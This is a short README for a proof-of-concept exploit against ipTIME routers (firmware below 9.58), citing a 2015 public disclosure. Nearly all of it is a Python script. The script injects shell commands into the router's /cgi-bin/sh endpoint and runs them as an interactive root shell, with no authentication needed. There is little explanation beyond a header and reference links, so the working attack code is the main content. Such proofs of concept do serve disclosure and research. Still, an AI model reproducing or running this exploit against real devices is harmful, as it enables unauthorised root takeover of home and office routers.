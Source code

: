# ipTIME Router firmwares < 9.58 RCE with root privileges
## The Basics
<b>Product :</b> <a href="https://pierrekim.github.io/blog/2015-05-05-127-iptime-routers-wifiaps-modems-firewalls-models-vulnerable-with-RCE-with-root-privileges.html">total 127 devices were affected (ipTIME Router firmwares < 9.58)</a><br>
<b>Tested Version :</b> ipTIME N604R Version 9.24<br>
<b>Bug-class :</b> Remote Code Execution (Command Injection)<br>
<br>

## Exploit PoC
```python
import os
import sys
import requests

def exploit(command, current_dir):
    url = 'http://192.168.0.1/cgi-bin/sh'
    headers = {
        'Content-Type': 'text/plain',
        'User-Agent': 'Mozilla/5.0'
    }
    if not command.endswith(';'):
        command+=";"
    data = f"X=X;echo 'Content-type: text/plain';echo;cd {current_dir};{command}"
    res = requests.post(url, headers=headers, data=data)
    return res.text

if __name__ == "__main__":
    current_dir = "/"
    while True:
        command = input(f"[ root@192.168.0.1:{current_dir} ]\n $ ")
        if command.startswith("cd "):
            path = command.split(" ", 1)[1]
            current_dir = os.path.normpath(os.path.join(current_dir, path))
            continue
        elif command == "clear" or command == "cls":
            os.system("clear")
        elif command == "exit":
            sys.exit()
        else:
            try:
                result = exploit(command, current_dir)
                if command.strip().startswith("pwd"):
                    current_dir = result.strip()
                print('\n' + result)
            except:
                pass
```
<br>

## Reference
<a href="https://pierrekim.github.io/blog/2015-07-01-poc-with-RCE-against-127-iptime-router-models.html">https://pierrekim.github.io/blog/2015-07-01-poc-with-RCE-against-127-iptime-router-models.html</a>
